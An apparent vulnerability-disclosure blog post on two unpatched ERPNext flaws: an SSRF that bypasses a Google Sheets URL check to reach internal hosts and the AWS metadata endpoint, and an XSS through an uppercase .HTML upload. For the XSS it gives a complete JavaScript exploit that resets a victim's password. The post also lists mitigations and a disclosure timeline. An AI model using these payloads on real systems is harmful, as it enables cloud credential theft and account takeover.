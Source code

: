 ```yaml
---
title: SSRF and Account Takeover via XSS in ERPNext
date: 2022-04-06
tags: [Security]
categories: [Security]
translator: huli
photos: /img/erpnext-ssrf-and-xss-to-account-takeover/cover-en.png
---
```


<!-- summary -->
[ERPNext](https://erpnext.com/) is a very popular open-source ERP(Enterprise Resource Planning) software built on [Frappe Framework](https://github.com/frappe/frappe).

Last December, we found two vulnerabilities in the latest version of ERPNext: SSRF(Server-Side Request Forgery) and account takeover via XSS. Both vulnerabilities require a low-privileged authenticated user to perform the attack.
<!-- summary -->

By exploiting SSRF, a malicious actor could steal the credentials from cloud metadata and may lead to RCE. For XSS, it's possible to take over others’ accounts.

We reported both vulnerabilities on November 25th, 2021. At the time of writing, there is still no fix for those two issues, so we decided to publish the details to inform the public about the risk.

<!-- more -->

## SSRF(Server-Side Request Forgery)

In ERPNext, the user with certain roles can import data from files or Google Sheets:

![](/img/erpnext-ssrf-and-xss-to-account-takeover/p1.png)

After data is imported, you can preview the content before saving it to the system.

Following is the function for importing data from Google Sheets:

``` py
def get_csv_content_from_google_sheets(url):
  # https://docs.google.com/spreadsheets/d/{sheetid}}/edit#gid={gid}
  validate_google_sheets_url(url)
  # get gid, defaults to first sheet
  if "gid=" in url:
    gid = url.rsplit('gid=', 1)[1]
  else:
    gid = 0
  # remove /edit path
  url = url.rsplit('/edit', 1)[0]
  # add /export path,
  url = url + '/export?format=csv&gid={0}'.format(gid)

  headers = {
    'Accept': 'text/csv'
  }
  response = requests.get(url, headers=headers)

  if response.ok:
    # if it returns html, it couldn't find the CSV content
    # because of invalid url or no access
    if response.text.strip().endswith('</html>'):
      frappe.throw(
        _('Google Sheets URL is invalid or not publicly accessible.'),
        title=_("Invalid URL")
      )
    return response.content
  elif response.status_code == 400:
    frappe.throw(_('Google Sheets URL must end with "gid={number}". Copy and paste the URL from the browser address bar and try again.'),
      title=_("Incorrect URL"))
  else:
    response.raise_for_status()
```

It's straightforward, just get the data from Google Sheets and check the format.

But, what if we provide a URL that looks like Google Sheet URL, but it's not?

The system only checks if the URL contains `docs.google.com/spreadsheets`:

``` py
def validate_google_sheets_url(url):
  if "docs.google.com/spreadsheets" not in url:
    frappe.throw(
      _('"{0}" is not a valid Google Sheets URL').format(url),
      title=_("Invalid URL"),
    )
```

So, we can provide a URL like this: `http://localhost:8080/#docs.google.com/spreadsheets`, then we can get the response from the internal network. It's a classic SSRF vulnerability.

![](/img/erpnext-ssrf-and-xss-to-account-takeover/p2.png)

If the port is open, the response will be different:

![](/img/erpnext-ssrf-and-xss-to-account-takeover/p3.png)

Moreover, we can access sensitive information via cloud metadata if the server is hosted on a cloud service.

For example, frappe cloud is hosted on AWS, so we can get metadata in `http://169.254.169.254/latest/dynamic/instance-identity/document#docs.google.com/spreadsheets`:

![](/img/erpnext-ssrf-and-xss-to-account-takeover/p4.png)

If there is an IAM associated with the instance, we can also read its credentials and escalate to RCE, here is one example: [Escalating SSRF to RCE](https://sanderwind.medium.com/escalating-ssrf-to-rce-7c0147371c40).

### Mitigation

Before a new patched version release, we suggest that:

1. Be careful when you grant importing data permission to a user.
2. Keep ERPNext in an isolated environment.
3. Requires [IMDSv2](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/configuring-instance-metadata-options.html) for AWS instance.

## Account Takeover via XSS

Every user in the ERPNext system has a profile page, like the following:

![](/img/erpnext-ssrf-and-xss-to-account-takeover/p5.png)

Users can upload their profile images from devices:

![](/img/erpnext-ssrf-and-xss-to-account-takeover/p6.png)

When uploading files, the front-end will check the file name to ensure it's an image(.png, .jpg, and so on). But, the back-end has no such check, so we can upload an HTML file by intercepting the request and changing the file extension to `.html`.

![](/img/erpnext-ssrf-and-xss-to-account-takeover/p7.png)

But unfortunately, we can't directly open the HTML file because of the `Content-Disposition` header:

![](/img/erpnext-ssrf-and-xss-to-account-takeover/p8.png)

Because of the header, the browser will download the HTML page instead of opening it.

After playing around with the feature for a while, we found that it can be bypassed by using the upper-case extension `.HTML`:

![](/img/erpnext-ssrf-and-xss-to-account-takeover/p9.png)

Now, we have an easy XSS. On the [security page](https://erpnext.com/security) of ERPNext, it clearly states that:

> Please Note: XSS and HTML Injections won't be accepted.

I think it's fine for some cases because pop-up an alert makes no harm, right? But what if we find a way to escalate it to another vulnerability with bigger impact?

Surprisingly, in ERPNext, the user doesn't need to input the old password to change to a new password:

![](/img/erpnext-ssrf-and-xss-to-account-takeover/p10.png)

So, we can write a script to automatically update the password for the victim user, like this:

``` html
<script>
  async function exploit(){
    // get user id from cookie
    const userId = document.cookie.match(/user_id=([^;]+)/)[1]
    console.log('user id:', userId)

    // get csrf token first
    const html = await fetch('/app').then(res => res.text())
    const token = html.match(/csrf_token = "(.+)";/)[1]
    console.log('csrf token:', token)

    // get user doc
    const json = await fetch('/api/method/frappe.desk.form.load.getdoc?doctype=User&name='+userId).then(res=>res.json())
    const docs = json.docs[0]
    console.log(docs)
    
    // just random strong password
    docs.new_password = 'WIofjg249hq@!32a'

    formBody = 'doc=' + encodeURIComponent(JSON.stringify(docs)) + '&action=Save'

    // update password
    const resp = await fetch('/api/method/frappe.desk.form.save.savedocs', {
      method: 'POST',
      headers: {
        'X-Frappe-Csrf-Token': token,
        'Content-Type': 'application/x-www-form-urlencoded;charset=UTF-8'
      },
      body: formBody
    });
    const result = await resp.json();
    console.log(result)
  }

  exploit()
</script>
```

When the victim user opens this page, their password will be updated.

So, as a malicious actor, I can upload the above content to the server, then send the URL to the admin. After the admin opens the page, I can take over his account because I know his password.

We successfully escalate from XSS to account takeover vulnerability.

### Mitigation

Before a new patched version release, we suggest that:

1. Be careful before opening any links hosted on ERPNext server, or using incognito mode to visit the link

## Conclusion

The latest version of ERPNext is vulnerable to both SSRF and XSS which can lead to account takeover. By exploiting SSRF, a malicious actor may read credentials from cloud metadata and escalate to RCE.

Both vulnerabilities require a low-privileged authenticated user to perform the attack.

There is no patch for the vulnerabilities at the time of writing. So we suggest that the user should be careful before the patch release. 

## Disclosure Timeline

`2021-11-25` Reported vulnerabilities via the [official form](https://erpnext.com/security)
`2021-12-15` Follow up, they said they are working on the fix
`2022-01-03` Follow up again, they said it's in the development phase
`2022-02-14` Follow up again, no response
`2022-02-23` 90 days since the initial report
`2022-03-10` Follow up again, no response
`2022-03-24` Ask for the updates, if there is no response we will publish the details in 14 days, no response
`2022-04-06` Public disclosure







